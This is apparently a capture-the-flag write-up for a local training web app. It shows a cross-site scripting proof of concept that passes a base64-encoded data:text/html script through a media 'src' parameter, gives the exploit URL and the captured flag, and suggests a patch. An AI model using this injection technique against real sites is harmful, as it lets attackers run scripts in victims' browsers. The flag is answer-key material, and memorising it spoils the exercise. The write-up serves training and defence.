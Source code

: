 # Protect_Your_Media_types

Unsecure media redirection setted in the frontend.
http://192.168.99.100)

## How to see it

Go on the page mentionned before.
Inspect element, it appears that a GET request is done for the prism image. We can see in the request that text/html is an
accepted format. We can deduct than we can inject some HTML there. Then we will just modify the request.
Don't forget to put your url in base 64.
```bash
<script>alert("Hello World")</script> -> base64 -> PHNjcmlwdD5hbGVydCgiaGVsbG8gd29ybGQiKTwvc2NyaXB0Pg==
```
```bash
http://192.168.99.100/?page=media&src=data:text/html;base64,PHNjcmlwdD5hbGVydCgiaGVsbG8gd29ybGQiKTwvc2NyaXB0Pg==
```
```bash
THE FLAG IS : 928D819FC19405AE09921A2B71227BD9ABA106F9D2D37AC412E9E5A750F1506D
```
## How to abuse of it

You can insert HTML code since the text/html is accepted

## How to patch it

Just use the type that you want to accept. Check the headers of the file you're using. ID of images pointing to DB.
